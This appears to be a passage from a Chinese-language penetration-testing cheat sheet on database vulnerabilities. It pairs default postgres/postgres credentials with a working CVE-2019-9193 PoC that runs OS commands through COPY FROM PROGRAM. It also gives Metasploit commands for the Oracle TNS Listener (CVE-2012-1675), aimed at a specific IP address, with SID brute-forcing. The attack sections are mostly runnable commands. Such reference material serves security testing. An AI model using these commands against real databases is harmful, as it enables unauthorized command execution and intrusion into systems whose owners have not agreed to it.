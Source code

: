 
### Postgres

#### CVE-2019-9193

Navicat连接数据库，数据库初始账号密码为postgres/postgres

影响版本：PostgreSQL 9.3-11.2 poc

```
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

![image](img/postgres1.png)

### Oracle

#### CVE-2012-1675

> Oracle远程数据投毒漏洞

CVE-2012-1675漏洞是Oracle允许攻击者在不提供用户名/密码的情况下，向远程“TNS Listener”组件处理的数据投毒的漏洞。 举例：攻击者可以在不需要用户名密码的情况下利用网络中传送的数据消息(包括加密或者非加密的数据)，如果结合（CVE-2012-3137漏洞进行密码破解）从而进一步影响甚至控制局域网内的任何一台数据库。

```
use auxiliary/admin/oracle/tnscmd
set rhosts 2.82.6.130
run

use auxiliary/admin/oracle/sid_brute
set rhosts 2.82.6.130
run
```

